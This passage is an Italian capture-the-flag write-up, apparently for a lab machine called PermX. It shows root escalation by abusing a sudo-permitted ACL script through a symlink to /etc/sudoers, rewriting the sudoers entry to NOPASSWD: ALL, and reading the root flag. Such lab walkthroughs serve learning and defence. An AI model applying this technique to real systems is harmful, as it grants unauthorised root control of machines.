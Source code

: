  Esecuzione dello Script `acl.sh` con `sudo`

```bash
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/sudo
```

- Questo comando esegue lo script `acl.sh` come utente root (`sudo`), passando come parametri l'utente `mtz`, i permessi `rw` (lettura e scrittura), e il file `/home/mtz/sudo`.
- Come abbiamo visto in precedenza, lo script `acl.sh` controlla se il target è un file e se si trova nella directory `/home/mtz/`. Tuttavia, poiché abbio creato un symlink a `/etc/sudoers`, lo script concederà effettivamente permessi su questo file

```bash
# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "@include" directives:

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl.sh

```

Quello che possiamo vedere è che effettivamente come utenti mtz possiamo eseguire solo `/optc/acl.sh` Ora dato che abbiamo i permessi di scrittura possiamo modificarlo. Quello che andremo a fare è sostituirlo a `NO PASSWD: `il valore `/opt/acl.sh` con `ALL` questo fare ci darà modo di eseguire qualsiasi comando come utente root senza inserire la password  

```bash
```bash
# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "@include" directives:

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```

eleviamo i nostri privilegi e ci prediamo la nostra root flag

```bash
mtz@permx:~$ sudo su
root@permx:/home/mtz# cat /root.txt
cat: /root.txt: No such file or directory
root@permx:/home/mtz# cat /root/root.txt
1916857023a2ccdea47a00f7f1cae55e
root@permx:/home/mtz#
```